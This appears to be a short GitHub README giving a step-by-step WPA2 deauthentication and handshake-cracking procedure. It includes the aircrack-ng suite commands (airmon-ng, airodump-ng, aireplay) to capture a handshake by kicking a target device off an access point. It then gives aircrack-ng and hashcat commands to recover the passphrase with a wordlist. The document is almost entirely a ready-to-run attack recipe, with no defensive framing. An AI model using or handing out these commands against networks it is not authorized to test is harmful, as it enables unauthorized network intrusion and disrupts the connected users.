 # WPA2 Deauth Attack

Basic Steps:

* (1) Put wNIC into monitor or promiscious mode
* (2) Monitor the network for traffic
    * (2a) Consider Strength of signal
    * (2b) Consider Whether or not you see both router and device traffic
* (3) Target the monitor to just the interested Access Point and dump its traffic
* (4) In parallel, send a malicious de-auth packet from your wNIC whose dest is the station and whose src is the router
* (5) Hopefully capture the eapol handshake to get the encrypted passphrase
* (6) Use a hash-breaker tool find a passphrase usually from a dictionary or set of rules that reproduce the recovered hased passphrase

These steps can be executed on a linux box with the following

* [install aircrack tools](https://www.aircrack-ng.org/doku.php?id=install_aircrack)
* `sudo airmon-ng start wlp5s0`
    * Assume your NIC is `wlp5s0`, most are named `wlan0`
* `iwconfig to verify monitor mode`
* `sudo airodump-ng wlp5s0mon`
    * This will give you an idea of what AP's, stations, and channels to target
    * Record the MAC of the AP and the station you want to kick off
* `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>`
    * Keep this open to log WPA2 Handshake
* In other term `sudo aireplay wlp5s0mon -0 1 -a <AP MAC> -c <TARGET MAC>`
    * This sends the attack
    * Hopefully in the dump term you capture the handshake
* To crack using aircrack: `aircrack-ng -a 2 -b <bssid> <.cap file> -w <wordlist>`
* To restore if -> `sudo airmon-ng stop wlp5s0mon && sudo ifconfig wlp5s0 up`
* To crack with hashcat Install hashcat and haschcat-utils
    * Convert the `.cap` to a `.hccapx`
    * `hashcat -m 2500 -a 0 <hhcapx> <wordlist>` will do a straight dictionary attack 